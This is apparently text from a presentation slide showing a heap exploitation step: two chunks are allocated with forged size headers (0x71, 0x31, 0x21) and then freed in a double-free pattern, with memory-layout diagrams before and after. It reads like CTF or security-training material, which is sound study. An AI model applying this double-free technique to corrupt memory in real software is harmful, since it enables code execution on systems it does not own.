

save
AABB00

...
0x71
AABB70
...
0
0x71

| 0 --> 0xAABB00 |
| --- |
| 1 --> 0xAABB70 |
|  |
|  |
|  |
|  |
|  |
|  |
|  |
|  |
allocateChunk(0x68)
--> ‘a’*0x10
--> p64(0)+p64(0x71)

allocateChunk(0x68)
--> ‘b’*0x10
--> p64(0) + p64(0x31)
--> 'c'*0x20
--> p64(0) + p64(0x21)

freeChunk(0)
freeChunk(1)
freeChunk(0)

...
AABB70
0x71
AABB00
...
...
0
0x31
...
0
1
0
0
0x21